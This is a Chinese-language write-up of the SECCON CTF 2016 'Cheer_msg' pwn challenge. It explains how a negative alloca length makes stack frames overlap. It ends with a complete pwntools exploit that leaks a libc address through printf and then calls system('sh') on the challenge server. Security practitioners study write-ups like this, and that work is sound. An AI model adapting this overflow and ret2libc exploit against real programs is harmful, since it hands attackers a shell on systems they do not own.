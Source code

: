 Title: [SECCON CTF 2016 Quals] Cheer_msg 100
Date: 2016-12-12 08:24
Tags: SECCON, CTF, pwn, ROP, Stack Overflow
Author: Naetw
Summary: A write-up for SECCON CTF 2016 Quals Cheer\_msg 100

## Analyzing

> 32 bit ELF, Partial RELRO, 有 canary & NX, 沒有 PIE

程式小小的，比較少見的部分是 `alloca` 的部分，不同於平常的 `malloc`，`alloca` 是從 caller 的 stack frame 上分配記憶體，在 function call 結束時，回收記憶體。

main:

![main](http://i.imgur.com/HVWlCzl.png)

因為 `alloca`，main 裡有一行指令是 `sub esp, eax`，這個 eax 的值會是根據輸入的 message length 並做一些處理，所以想法是讓 eax 為負數，`sub esp, eax` 指令做完後，esp 的 address 高於 ebp，這樣在 call message 時，**因為 message function 的 stack frame 跟 main 的 stack frame 重疊**，就可以用 overflow 來 overwrite return address。

來看一下 stack frame 的變化:

```
         +------------------+ low address
origin   |..................| <- esp 
         |..................|
         |..................|
         |..................|
         |..................|
         |..................|
         |......previous ebp| <- ebp
         |....return address| 
         +------------------+ high address
```

after `sub esp, eax`:

```
         +------------------+ low address
new      |..................|  
         |..................|
         |..................|
         |..................|
         |..................|
         |..................|
         |......previous ebp| <- ebp
         |....return address|
         |..................|
         |..................|
         |..................|
         |..................|
         |..................| <- esp
         +------------------+ high address
```

message:

![message](http://i.imgur.com/W7cpuzP.png)

雖然因為輸入的 length 是負數，第一個 `getnline` 無法輸入，但是主要利用的是 **stack frame 的重疊**，所以要寫入的地方就著重在 local variable `v3` 上

## Exploit

找到漏洞後，我們已經能利用 overwrite ret address 來控制 eip，不過我們還差 libc information

因此第一步是 **leak libc function address**，計算 `v3` 的位置與 main ret address 的 offset，因為是 32 bits，我們疊一下 fake function call，利用 `printf` 來 leak info 後，return 回 main

之後再做一次差不多的事，只是這次的 fake function call 是 call `system('sh')`

## Final Exploit:

```python
#!/usr/bin/env python
from pwn import *

r = remote('cheermsg.pwn.seccon.jp', 30527)
#r = remote('127.0.0.1', 4000)

libc = ELF('libc-2.19.so')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')

# leak info
r.sendline('-100')

printf = 0x08048430
atoi_got = 0x804a02c
main = 0x080485ca

r.sendlineafter('Name >> ', 'A' * 48 + p32(printf) + p32(main) + p32(0x804a02c))
r.recvline()
r.recvline()
r.recvline()

atoi = r.recv()
atoi = u32(atoi[:4])
print hex(atoi)
base = atoi - libc.symbols['atoi']
print hex(base)
system = base + libc.symbols['system']
sh = base + 0x0e469

sleep(0.1)

# exploit
r.sendline('-100')
r.sendlineafter('Name >> ', 'A' * 48 + p32(system) + p32(0xdeadbeef) + p32(sh))

r.interactive()
```
